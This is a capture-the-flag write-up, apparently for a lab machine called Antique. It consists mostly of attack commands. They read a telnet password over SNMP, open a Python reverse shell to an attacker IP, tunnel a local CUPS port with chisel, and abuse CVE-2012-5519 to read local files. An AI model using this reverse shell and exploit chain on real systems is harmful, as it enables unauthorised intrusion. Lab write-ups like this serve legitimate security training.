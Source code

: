 # Antique Write-Up

Easy

Tags:
`Network`
`Easy`
`Internal`
`Telnet`
`Penetration Tester Level 1`
`Weak Authentication`
`CVE-2012-5519`
`Public Vulnerabilities`
`SNMP`
`Clear Text Credentials`
`Code Execution`
`CVE Exploitation`
`Local File Read`


## Intro

1. Simple Network Monitoring Protocol vulnerability
2. Python reverse shell
3. Chisel tunnel to forward port
4. Cups 1.6.1 vuln - read local file

## Exploit

### Port scanning

```
PORT   STATE SERVICE VERSION
23/tcp open  telnet?
```

### Get telnet password via SNMP vuln

```
snmpget -v 1 -c public 10.10.11.107 1.3.6.1.4.1.11.2.3.9.1.1.13.0 
```

Telnet password: `P@ssw0rd@123!!123`

Python shell

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.5",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

Netcat listener

```
nc -lvnp 4444
```

## Privilege Escalation

```
netstat -ant
```

```
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 0.0.0.0:23              0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:631           0.0.0.0:*               LISTEN     
tcp        0      0 10.10.11.107:23         10.10.16.5:46726        ESTABLISHED
tcp        0    150 10.10.11.107:57140      10.10.16.5:1234         ESTABLISHED
tcp6       0      0 ::1:631                 :::*                    LISTEN
```

Use `chisel` tunnel. Drop `chisel` for victim, change the access permissions of `chisel` file.

```
chmod a+x chisel
```

Run server on attacker

```
sudo ./chisel server --port 8000 --reverse 
```

Run client on victim

```
./chisel client 10.10.16.5:8000 R:631:127.0.0.1:631
```

Cups 1.6.1 Vuln

```
cupsctl ErrorLog="<path>"
```

```
curl http://localhost:631/admin/log/error_log?
```